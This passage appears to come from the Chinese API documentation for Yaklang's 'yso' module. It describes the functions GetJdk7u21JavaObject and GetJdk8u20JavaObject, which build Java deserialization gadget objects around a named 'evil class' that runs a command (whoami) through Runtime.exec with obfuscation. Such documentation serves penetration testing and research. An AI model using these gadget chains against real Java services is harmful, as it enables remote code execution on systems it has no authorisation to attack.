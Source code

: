 ### 基础用法

生成一个Java对象，并指定恶意类的名称为'KEsBXTRS'，使用Runtime Exec方法执行命令

```yaklang
gadgetObj,err = yso.GetJdk7u21JavaObject(

	yso.useRuntimeExecEvilClass(command),
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className),

)
```

## 44. `yso.GetJdk8u20JavaObject`

## 功能描述

基于Jdk8u20 序列化模板生成并返回一个Java对象，用户可以通过提供额外的配置定制生成的Java对象的特定属性或行为。

## 参数说明

```
func GetJdk8u20JavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```

**请求参数**

- `options` : 用于配置Java对象的可变参数函数列表

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，成功时为nil错误，失败时返回相应错误

## 示例代码

### 基础用法

生成一个Java对象，并指定恶意类的名称为'KEsBXTRS'，使用Runtime Exec方法执行命令

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetJdk8u20JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```

## 45. `yso.GetSimplePrincipalCollectionJavaObject`

